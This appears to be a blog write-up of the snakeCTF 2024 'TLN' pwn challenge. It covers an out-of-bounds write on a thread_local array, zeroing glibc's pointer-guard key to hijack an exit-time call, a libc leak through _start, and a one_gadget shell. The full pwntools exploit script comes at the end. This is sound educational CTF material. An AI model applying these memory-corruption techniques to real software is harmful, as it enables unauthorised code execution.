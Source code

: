 +++
title = 'TLN - snakeCTF 2024'
date = 2024-09-09T08:46:34+02:00
draft = false
+++

this weekend I played snakeCTF for fun and managed to solve a few pwns. one of them was TLN.
the challenge code was pretty simple, introducing a classical oob index vulnerability:
```c
case OPT_SET:
    print("Index: ");
    index = get_int();

    print("Content: ");
    read_exact(&(notes[index].content), sizeof(item_t) - 1);
    notes[index].content[sizeof(item_t) - 1] = 0;
    break;
```
as you can see, no bounds checks at all.
the `notes` array consists of elements of `item_t`, which is defined like the following:
```c
typedef struct {
    char content[8];
} item_t;
```
to sum it up: we can write 7 bytes at a time relative to the starting address of `notes`.
the declaration of the array is what's particulary interesting. the keyword `thread_local` is used here:
```c
static thread_local item_t notes[SIZE];
```
what does `thread_local` mean tho? according to the C17 standard it means:
> An object whose identifier is declared with the storage-class specifier thread_local has thread
> storage duration. Its lifetime is the entire execution of the thread for which it is created, and its
> stored value is initialized when the thread is started. There is a distinct object per thread, and use of
> the declared name in an expression refers to the object associated with the thread evaluating the
> expression. The result of attempting to indirectly access an object with thread storage duration from
> a thread other than the one with which the object is associated is implementation-defined
well, what's even more interesting to us as pwners is where it lies in memory in the first place.
you would think it lies on the stack just as other local variables, but that is not the case.
in fact, the array is contained in a memory region right in front of `glibc` mappings.

the first element resides at `region+0x740`:
```
0x7b413cef4740:	0x0041414141414141	0x0000000000000000
```
since we got an oob write, it's interesting to us what's after the array data.
at index `SIZE` (which is 256) we can find some interesting stuff:
```
0x7b413cef4f40:	0x00007b413cef4f40	0x00007b413cef58e0
0x7b413cef4f50:	0x00007b413cef4f40	0x0000000000000000
0x7b413cef4f60:	0x0000000000000000	0x06b455b9b6b1a300
0x7b413cef4f70:	0xbc2b02f7ccca2b77
```
the address `0x00007b413cef4f40` is actually the start of our data added with `0x800`!
if we change that, we can trick the program that our array lies somewhere else (as we specify).
that'd allow us to even write to addresses lower that our current array address (useful, because we can't write to -1 and lower).

however I made use of something more interesting. the value `0xbc2b02f7ccca2b77` seems like total gibberish.
but when trying to corrupt it, you get a `SIGSEGV` at a call as soon as you exit the program.
I later found out, that `0xbc2b02f7ccca2b77` get's xor'ed with a secret key, so it get's a valid address.
we want a valid (and custom) address to call, so it'd be nice to know that secret key.

lucky for us, that key is in an rw segment of the libc, which we can just zero out.
overwriting `0xbc2b02f7ccca2b77` with a custom address now leads to a call to that exact address.

now what to we call? we still nead some libc leaks in order to do something.
that's why I chose `_start` as a function to call. you may ask: how can we leak with that?

we will eventually end up at the following instruction in `__libc_start_main`:
```
<__libc_start_main+150>:	mov    rax,QWORD PTR [r15+0xa0]
<__libc_start_main+157>:	...
<__libc_start_main+166>:	mov    rax,QWORD PTR [rax+0x8]
<__libc_start_main+170>:	...
<__libc_start_main+176>:	add    rax,QWORD PTR [r15]
<__libc_start_main+179>:	call   rax
```
this enables us another call, since we control the value contained in the address of `r15`.
however this time with much better arguments:
```
*0x4141414141414141 (
   $rdi = 0x0000000007834891,
   $rsi = 0x00007ffff1341d40,
   $rdx = 0x00007ffff1341ed8
)
```
if we could now set `rdi` to `0` and call `write` we would have a leak. luckily we can do that.
we can jump to `main+14`:
```
0x000000000040107e <+14>:	mov    edi,0x1
0x0000000000401083 <+19>:	call   0x401030 <write@plt>
0x0000000000401088 <+24>:	call   0x4012c0 <chall>
```
we now leak a ton of data (including libc) and we can continue using the program without exit'ing.
now we can do the same procedure but instead call a one_gadget. I decided for that one:
```
0xe39fb execve("/bin/sh", rbp-0x40, r12)
constraints:
  address rbp-0x38 is writable
  rdi == NULL || {"/bin/sh", rdi, NULL} is a valid argv
  [r12] == NULL || r12 == NULL || r12 is a valid envp
```
from our call primitive from the beginning, `rdi` was `0`, but `r12` had some value in it.
again, luckily there was an `rw` address in libc where `r12` was loaded from before.
if we set `r12` to `0` and call `exit`, one_gadget is executed we get a shell:
```
[*] Switching to interactive mode
 1. Set item
2. Get item
3. Exit
> Index: Content: err: read
/bin/sh: 1: AAAAAA: not found
$ cat flag
snakeCTF{fake_flag}
```
the full exploit is here:
```py
from pwn import *

def set_item(idx, data):
    p.sendlineafter(b">", b"1")
    p.sendlineafter(b"Index:", str(int(idx)).encode("ascii"))
    p.sendafter(b"Content:", data)

p = process("./tln")
#p = process(["ncat", "--ssl", "thread-local-notes.challs.snakectf.org", "1337"])

ld_off = 0x239000

off_null = 0x740
off_off = ld_off + 0x2e0
off_xor = 0x1ebfd8
off_r12 = 0x1ebfa0

start = 0x4010a0

idx = (off_off - off_null) / 0x8
set_item(idx, p64(0x7e)[:-1])

idx = (off_xor - off_null) / 0x8
set_item(idx, p64(0x0)[:-1])

idx = 262 # rip
set_item(idx, p64(start)[:-1])

p.sendline(b"3")
p.recvuntil(b"Bye!")
leak = p.recvuntil(b"1. Set item")

libc_leak = u64(leak[89:97])
libc_base = libc_leak - 0x4295e
one_gadget = libc_base + 0xe39fb + 0x3000
print(hex(libc_base))

idx = (off_r12 - off_null) / 0x8
set_item(idx, p64(0x0)[:-1])

idx = (off_off - off_null) / 0x8
set_item(idx, p64(0x7e)[:-1])

idx = (off_xor - off_null) / 0x8
set_item(idx, p64(0x0)[:-1])

idx = 262 # rip
set_item(idx, p64(one_gadget)[:-1])

p.sendline(b"1")
p.sendline(b"-1")
p.sendline(b"AAAAAA")

p.interactive()
```